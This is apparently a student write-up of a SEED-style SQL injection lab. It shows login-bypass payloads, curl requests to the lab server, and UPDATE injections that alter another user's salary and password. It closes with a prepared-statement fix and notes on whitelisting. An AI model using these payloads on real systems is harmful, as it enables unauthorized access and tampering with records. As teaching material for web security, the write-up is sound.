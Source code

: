 # TD1 - SQL INJECTION

## SQL Coding Review

```SQL
-- SQL Commands Reminder

-- SELECT statement
SELECT column1, column2 FROM table WHERE condition;

-- UPDATE statement
UPDATE table SET column1 = value1, column2 = value2 WHERE condition;

-- INSERT statement
INSERT INTO table (column1, column2) VALUES (value1, value2);

-- DELETE statement
DELETE FROM table WHERE condition;

-- JOIN (INNER JOIN as an example)
SELECT column1, column2
FROM table1
INNER JOIN table2 ON table1.column = table2.column;

```
## SQL injections on SELECT statements

- from the webpage, our strategy is to insert SQL code into the inputs of our webpage, this will be done by using the single quote: " ' ". This will close the initial single quote that is open to insert our information and therefore we'll be able to insert SQL code right after. I have chosen to go with two options here:
    1. put a true statement in order for the sql statement to be true in all cases then comment the rest:
        ```SQL 
        ' or 1=1 --
        ```
    2. insert the name of a user then put -- to comment all the remaining code therefore all the SQL code that follows is commented thus making the password insignificant.
        ```SQL
        admin'; -- 
        ```
- first of all we inspect the behaviour of the login button, we deduce that the file retrieved when the button is clicked is unsafe_home.php, we insert in the link the same things we injected in the web and execute the curl command, for the link, we have to make sure that certain characters are URL-encoded so that they are interpreted correctly, space is indicated by a +:
    ```
    curl http://www.seed-server.com/unsafe_home.php?username=%27+or+1%3D1+--+&Password=
    ```
    or 
    ```
    curl http://www.seed-server.com/unsafe_home.php?username=admin%27%3B+--+&Password=
    ```
## Appending a new SQL statement
Trying to inject some text like admin’; UPDATE credential set Name=’John Doe’ WHERE
Name=‘Alice’;# the result is not as expected :
![UPDATE ERROR](./update_error.png)
This attack is actually infeasible, as one can only perform a single request through the PHP
implementation. Actually, reading the PHP documentation of the query function (see for
instance https://www.php.net/manual/fr/pdo.query.php) shows that it is limited in scope.
However, if the multi_query function had been used instead, it would have been possible to
inject an UPDATE request with new data for instance.

## SQL injections on UPDATE statements
- In order for Alice to commit the perfect crime she needs to make sure that only her salary is changed, this can be done with the following injection:
    ```sql
    ', salary='5000000' WHERE Name='Alice' -- 
    ```
    ![ALICE SALARY](./Alice_salary.png)
- now we got Alice a higher salary, let's punish her stingy boss Boby, using the same injection:
    ```sql
    ', salary='20' WHERE Name='Boby'# -- 
    ```
- Modifying the password will require us to do an extra step as the hash value of the password is the one stored using the SHA1 function, therefore we must inject the hash value of the password we would like:
    - using the following command in our linux terminal we can determine the hash for our password, in this example we use "Alice":
        ```shell
        echo -n "Alice" | sha1sum
        ```
    Or we can directly use the SHA1(string) function in SQL
    - we inject this hash using the same technique
        ```sql
        ', password = SHA1('Alice') WHERE name='Boby'#
        ```
        we can see that Boby can only login if he puts Alice in his password box.

##  Countermeasure - prepared statement
Among the best countermeasures to SQL injections is using a prepared statement in your code. 

The loophole that is exploited in this attack is that code is mixed with data, so by tampering with data, we can bypass limiters like single or double quotes and introduce new code, the code is then compiled after being modified. 

Prepared statement basically compile our SQL code before injecting the data onto it using placeholders like '?', then the data is inserted right before execution.

the unsafe php code that allowed for the sql injections to occur is the following:
```php
$result = $conn->query("SELECT id, name, eid, salary, ssn
                        FROM credential
                        WHERE name= '$input_uname' and Password= '$hashed_pwd'");

```

we can see here that we can tamper with the query before it's compilation.

**the safe version should seperate the SQL code then execute it, then inject our data, here is a sample of how a prepared statement works after modifying the file [unsafe.php](./Labsetup/image_www/Code/defense/unsafe.php) :**

```php
$stmt = $conn->prepare("SELECT id, name, eid, salary, ssn
                        FROM credential
                        WHERE name = ? AND Password = ?");
$stmt->bind_param("ss", $input_uname, $hashed_pwd);
$stmt->execute();
$stmt->bind_result($id, $name, $eid, $salary, $ssn);
$stmt->fetch();
```

After attempting the following injection we fail:
![INJECTION](./injection.png)
![INJECTION FAIL](./injection_failed.png)


Here is the information after logging on correctly:
![info](./info.png)


Note that prepared statements are **not always the solution** as it only deals with static SQL queries with a fixed structure, this is because prepared statements can only be used to protect fields that are not needed during compilation.Therefore **we cannot use prepared statements in Column names, Table names, SQL operators or within an ORDER BY clause.**

There are other ways to deal with SQL injections in such cases, mainly ***Whitelisting***.

